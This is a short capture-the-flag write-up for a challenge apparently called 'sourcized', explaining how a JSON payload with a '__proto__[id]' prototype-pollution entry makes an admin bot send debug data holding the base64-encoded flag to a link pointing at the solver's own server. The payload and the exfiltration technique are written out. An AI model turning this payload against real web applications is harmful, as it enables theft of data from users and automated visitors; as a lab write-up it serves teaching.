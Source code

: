 # Solve for sourcized

## Step 1
First we need to create a working payload paper
```json
{
    "title": "",
    "content": "",
    "links": [
        {
            "name": "",
            "href": "<our server>",
            "attributes": {
                "__proto__[id]": "debugger"
            }
        }
    ]
}
```

This works by doing a prototype injection which will inject so that `id=debugger` is set. This means that our link which has the FLAG as defaultId will have the id `debugger` instead of the defaultId. Thus, when the page searches for `window.debugger` it will find our `anchor` element. That element will have the `href` attribute set to our server. This will make the bot send debug information to our server. The debug information will contain the `defaultId` which is a base64 encoded version of the flag.

## Step 2

Encode the payload and send it to the bot. The bot will then send the debug information to our server. The debug information will contain the `defaultId` which is a base64 encoded version of the flag. We can then decode the `defaultId` to get the flag.

Easy way run solve.py with all the values filled in.
